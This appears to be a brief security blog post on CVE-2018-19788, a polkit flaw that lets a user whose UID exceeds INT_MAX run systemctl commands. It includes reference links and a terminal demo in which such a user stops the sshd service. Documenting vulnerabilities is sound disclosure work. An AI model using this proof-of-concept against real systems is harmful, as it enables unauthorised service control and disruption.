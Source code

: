 ```yaml
---
layout: post
title: Critical vulnerability on policykit of systemd
category: security
description: unprivileged users with UID > INT_MAX can successfully execute any systemctl command
---
```


**[CVE-2018-19788]**: A flaw was found in PolicyKit (aka `polkit 0.115`) that allows a user with a uid greater than `INT_MAX` to successfully execute any `systemctl` command.
* [https://github.com/systemd/systemd/issues/11026](https://github.com/systemd/systemd/issues/11026)
* [https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156](https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156)
* [https://gitlab.freedesktop.org/polkit/polkit/issues/74](https://gitlab.freedesktop.org/polkit/polkit/issues/74)

Find out more about CVE-2018-19788 from the [MITRE CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19788) dictionary and [NIST NVD](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2018-19788)

![](/assets/img/CVE-2018-19788.webp)

<!--description-->

### Demo

```
root@ahihi:~# useradd -u 4000000000 wtf
root@ahihi:~# su - wtf
No directory, logging in with HOME=/

$ whoami
wtf
$ id
uid=4000000000(wtf) gid=1002(wtf) groups=1002(wtf)

$ systemctl stop sshd.service

(process:22860): GLib-GObject-WARNING **: value "-294967296" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)

root@ahihi:~# systemctl status sshd.service
...
Dec 05 15:38:39 ahihi systemd[1]: Stopping OpenBSD Secure Shell server...
Dec 05 15:38:39 ahihi systemd[1]: Stopped OpenBSD Secure Shell server.
```


